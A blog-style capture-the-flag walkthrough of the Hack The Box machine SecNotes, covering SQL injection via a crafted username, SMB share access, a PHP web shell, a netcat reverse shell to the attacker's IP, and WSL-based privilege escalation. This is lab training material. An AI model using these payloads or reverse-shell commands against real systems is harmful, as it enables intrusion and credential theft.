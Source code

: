 ```yaml
---
title: "SecNotes Walkthrough(HTB)"
date: 2025-03-22
draft: true 
description: "A straight forward walkthrough of the box SecNotes"
tags: ["Medium", "Windows", "HTB", "hacking", "Active Directory", "Walkthrough"]
---
```

## Reconnaissance & Enumeration

- As usual I started with a Nmap scan, as for the interesting ones we got port 445 and 80, 8808 open
![Pasted image 20241212212636.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212636.png?raw=true)
- Web port for an Active Directory seems interesting so I quickly checked the port `80` and we got a login page Also with an option to signup for creating new account.
- This website offeres notes saving feature for it's users.
- For starters I registered an account and logged in.
- After a while I started enumerating. Then I noticed something, its getting the notes listed by using the username and also displays the username on the page. Seems good isn't it.
![Great](https://media1.tenor.com/m/JWc2xV5Y1QcAAAAC/dance.gif)

## Exploitation

### Testing SQL Injection
- After seeing this, the idea of sql Injection suddenly sparked within my brain. As this lists notes for the site merely using username is bad cause a simple valid SQL injection payload might make the backend to list all the notes on the server it includes notes of all users.
- If you haven't heard of SQL injection and if it's new to you I already have a short post on SQL injections for begginers. Please check it {{< article link="/Secure-The-Throne/posts/1741343014156-sql-injection/" >}}
- I started the attack, First I tried `'or 1=1 -- -` on the login page it didn't worked so, the idea here is to create an account with this as the username `'or 1=1 -- -`. I created an account with the username of `'or 1=1 -- -` and it was a success. There is no validation for usernames, Actually in my opinion validation on everything is a requirement.
![validation](https://media1.tenor.com/m/MyQOyO7vDNcAAAAC/thats-very-important-raashi-khanna.gif)
- With the malicious username now I can view everyone's notes
![Pasted image 20241212212438.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212438.png?raw=true)
- I searched through all the notes and from one of the notes I got a password and username for SMB share.
![creds](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212212838.png?raw=true)
### Accessing the SMB share
- Quickly after enumerating the shares I logged into a share called `new-site` cause it seemed interesting, `new-site` share seems like a share for a web directory which could be this directory or the share for web port `8808`. But
![share](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212213135.png?raw=true)
- At this point i'm 100% positive that this share is for the site hosted on web port `8808`. I could easily upload a reverse shell and trigger it by going to the path as this is a web port.
- Wasted literally two hours cause web shells were not working, then after that restarted the machine and got one worked.

### Shell
- I Created a file with this code and named it `cd.php`.
```php
<?php system($_GET['cmd']); ?>
```
- This above payload will enable command execution on the system.
- After uploading it via SMB and I executed/Triggered or tested the shell by visiting this `http://secnotes.htb:8808/cd.php?cmd=whoami` with a command value of `whoami`.
- Got a response, then to get a stable reverse shell connection I uploaded `nc.exe` into the smb share and accessed it `http://10.10.10.97:8808/tester.php?cmd=nc.exe+-e+cmd.exe+10.10.14.5+6001`
- This is the command
```cmd
nc.exe -e cmd.exe <IP> <PORT>
```
- I got a shell back 
- Eventually got {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241212225123.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212225123.png?raw=true)

## Privilege Escalation
- I started my post exploitaion enumeration and while at that I found some interesting files within the `C:\\` directory
![Pasted image 20241212225342.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212225342.png?raw=true)
![interesting](https://media1.tenor.com/m/NQgKo4V-sREAAAAC/interesting-batman.gif)
- Root directory of systems with WSL installed would have directories similar to this and the `Ubuntu.zip` Indicating that this system has WSL installed.
- Typically WSL run as root/administrator. If I could excute the `bash` I could escalate my privilege. 
- To My undertstanding there should a system link file of `bash` as `bash.exe`. So to exploit this we can search for `bash.exe` file
```bash
where /R c:\ bash.exe  
```
### Pivoting
- I got the path and after executing `bash.exe` I got root access easily on the wsl.
![Pasted image 20241212230506.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212230506.png?raw=true)
- Moments after stablizing the shell using `python3 -c 'import pty;pty.spawn("/bin/bash")'`, I enumerated and read the history of the commands in the terminal and there I could see administrator password for a share.
![Pasted image 20241212230916.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212230916.png?raw=true)
- Now I logged in to the share using the administrator's password.
```bash
smbclient -U 'administrator%password' \\\\10.10.10.97\\c$
```
- Downloaded the root.txt file using `get` command
![Pasted image 20241212231856.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212231856.png?raw=true)
- Acquired {{< keyword >}} Root flag {{< /keyword >}} 
![Pasted image 20241212231934.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241212231934.png?raw=true)

{{< typeit >}} This is it, this was a good and useful journey. I learnt a lot from this box. Anyway i'll see you soon {{< /typeit >}}
![bye](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExdXYxZ2syaHUwbWoxNXRtZjEwOWUzbWhybWxzMWkyZzB1ZG42cXV1MyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/l378d3GlBpg4uHXr2/giphy.gif)
